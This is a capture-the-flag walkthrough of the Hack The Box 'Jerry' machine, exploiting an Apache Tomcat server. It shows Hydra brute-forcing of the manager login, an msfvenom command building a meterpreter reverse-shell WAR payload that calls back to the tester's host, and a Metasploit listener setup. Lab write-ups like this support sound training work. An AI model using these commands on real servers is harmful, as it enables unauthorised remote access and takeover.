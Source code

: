 # Jerry

Jerry is a machine that uses `Apache Tomcat`, an open-source application designed to serve web pages developed in `Java`. We are going to exploit this machine using `Metasploit`.

First, let's confirm we have a connection to the target machine by using the `ping` tool, and then check for running applications using `nmap`.

<figure><img src="../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

You can use the `-sC` switch for scripts to identify potential vulnerabilities, configuration issues, and additional service details. The `-sV` switch is for service version detection, which will send probes to the ports and compare them against a database.

If we type the web page in our browser, we access the Tomcat webpage. Make sure to add `:8080` at the end to specify the correct port running on the web server.

<figure><img src="../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

If we click the "server status" page, we get prompted to add credentials. In this case, `Admin:Admin` works, but it takes us to a web page that contains no information beneficial to our pentest.

<figure><img src="../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

We can try to click "Manager App" or "Host Manager" and utilize the same credentials, but that does not work, as seen by the `403` status code.

<figure><img src="../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

For a fun exercise, you can run Burp Suite as a proxy and catch the `HTTP GET` request. Inside the request will be the credentials `Admin:Admin` you entered in the `Authorization` header, encoded as base64. If you decode it in `Burp` as base64, you will see `Admin:Admin`. Pretty cool.

<figure><img src="../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

Obviously, this website already uses weak credentials, so we are going to try to brute force the password on this website using a tool called `Hydra`.



Clone a list of your choice, Daniel Miessler has some amazing content.

<figure><img src="../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

Let's identify a list of passwords commonly used for Tomcat applications.

<figure><img src="../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

Once we have identified the list we want to use, run `hydra -h` to get a list of options available from the tool.

We can use the `-C` switch to specify the brute force password list we would like to use with the tool.

<figure><img src="../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

Run the command, and we identify credentials that work with the `/manager/html` page. It is odd that Hydra determined `Admin:Admin` works, as it actually does not. Anyways...it looks like `tomcat:s3cret` will work. Try these credentials on the `Manager App` link on the website.

<figure><img src="../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

The page is a directory of war files. We can try to deploy our own war file to get the application to execute code of our choice. `Msfvenom` is the tool of choice here, as it allows us to build reverse shell payloads using different file types. Run the following commands to build the malicious payload.

```shell
msfvenom -l payloads
msfvenom -p windows/x64/meterpreter/reverse_tcp -l formats
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.40 LPORT=9001 -f war -o tomcat.war
```

The malicious file is now developed. Next, we can use the `Metasploit` framework to set up a reverse shell listener on our machine, so when the malicious war file is downloaded, we can catch and enter into the shell.

```shell
msfdb run
msf6 > use exploit/multi/handler
msf6 > set payload windows/x64/meterpretor/reverse_tcp
msf6 > set LHOST tun0
msf6 > set LPORT 9001
msf6 > exploit -j
```

<figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Deploy the war file in the `Manager App`.

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Unzip the folder in your directory, and grab the file ending in `.jsp`. Add the name of this file to the end of the URL in your web browser. This will execute your war file, and the reverse shell listening on your machine should catch the connection.

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

```shell
10.10.10.95:8080/tomcat1/dnawdram.jsp
```

Go back to the `Metasploit` listener and check if a session has started.&#x20;

<figure><img src="../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

You can run the following commands to find the flag:

```shell
shell
whoami
dir
cd Administrator
cd Desktop
```

<figure><img src="../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Congrats! You have successfully completed Jerry.&#x20;

References:

{% embed url="https://www.youtube.com/watch?v=PJeBIey8gc4" %}
